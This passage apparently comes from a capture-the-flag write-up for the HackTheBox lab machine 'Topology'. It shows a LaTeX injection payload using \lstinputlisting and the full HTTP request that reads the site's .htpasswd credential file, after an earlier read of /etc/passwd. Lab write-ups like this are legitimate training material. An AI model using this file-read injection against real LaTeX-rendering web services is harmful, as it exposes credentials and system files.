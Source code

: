 ![passwd file](/images/topology_passwd.png)

> Nice it works! 

What we know from the file now is that there is user on the system named `vdaisley`.  
We remember that there is a sub domain called `dev` which is password protected, so in the next step we try to read the `.htpasswd` file of this website

LaTex payload:
```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

```http
GET /equation.php?eqn=$\lstinputlisting{/var/www/dev/.htpasswd}$&submit= HTTP/1.1
Host: latex.topology.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://latex.topology.htb/equation.php
Connection: close
Upgrade-Insecure-Requests: 1
```
